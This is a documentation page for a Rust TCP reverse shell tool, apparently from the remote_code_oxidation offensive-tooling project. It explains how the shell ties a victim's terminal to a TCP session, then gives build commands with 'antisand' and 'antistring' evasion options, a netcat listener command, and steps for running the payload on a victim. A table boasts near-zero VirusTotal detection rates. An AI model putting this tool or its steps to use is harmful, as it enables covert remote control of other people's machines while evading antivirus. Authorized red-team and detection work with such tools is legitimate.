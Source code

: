 ```yaml
---
title: "TCP Reverse Shell"
datatable: true
---
```


# RCO: TCP Reverse Shell

[![TCP reverse shell version unavailable](https://img.shields.io/crates/v/tcp_reverse_shell?label=tcp_reverse_shell)](https://github.com/kmanc/remote_code_oxidation/tree/master/tcp_reverse_shell)

<div class="datatable-begin"></div>

Target OS | Demo
--------- | ----
Linux     | [![tcp_reverse_shell_linux](/assets/gifs/tcp_reverse_shell.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/gifs/tcp_reverse_shell.gif)
Windows   | [![tcp_reverse_shell_windows](/assets/gifs/tcp_reverse_shell_windows.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/gifs/tcp_reverse_shell_windows.gif)

<div class="datatable-end"></div>

## How it works

The reverse shells for both Linux and Windows work by establishing a [Transmission Control Protocol (TCP) session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process starts with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.


## Using it

1.  *[Not shown in demo]* Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2.  *[Not shown in demo]* Compile the executable
    1.  For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell [antisand][,][antistring]] --release
    ```
    2.  For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell [antisand][,][antistring]] --release
    ```
3.  Start a netcat listener on the attacking machine on the same port you configured in step 1
```commandline
nc -nlvp 4444
```
4.  Execute the payload on the victim machine
5.  Return to the listener and enter desired commands for the victim machine to run


## Detection rates

<div class="datatable-begin"></div>

Target OS | Features                      | Detections                             | Screenshot
--------- | ----------------------------- | -------------------------------------- | ----------
Linux     | None                      | [0 / 62](https://www.virustotal.com/gui/file/ad0713b3fb39f1b4bb0128b3d427eb4caaced2b8d3e6442af0ee24f4225ca017) | [![tcp_reverse_shell_linux](/assets/images/linux/shell.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/linux/shell.png)
Windows   | `antisand,antistring`     | [2 / 70](https://www.virustotal.com/gui/file/5f994446de4334830bcb18a5bb9da9e4911a64ccb087cff18fd051660064103d) | [![tcp_reverse_shell_windows_antisand_antistring](/assets/images/windows/shell_antisand_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell_antisand_antistring.png)
Windows   | `antisand`                | [1 / 70](https://www.virustotal.com/gui/file/373a55b6e2818b9b8914b10aee02ecc72cd72db0292c0e0f42142fb0a73a7599) | [![tcp_reverse_shell_windows_antisand](/assets/images/windows/shell_antisand.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell_antisand.png)
Windows   | None                      | [0 / 70](https://www.virustotal.com/gui/file/cd3f61abed9513e139150c28492db516763888f68fde60b338393d1ebd54d56a) | [![tcp_reverse_shell_windows](/assets/images/windows/shell.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell.png)
Windows   | `antistring`              | [0 / 70](https://www.virustotal.com/gui/file/e5fcdc8ae700525ccde8275c11d01371f24c37463875f221c3073ef4475e9ca9) | [![tcp_reverse_shell_windows_antistring](/assets/images/windows/shell_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell_antistring.png)

<div class="datatable-end"></div>
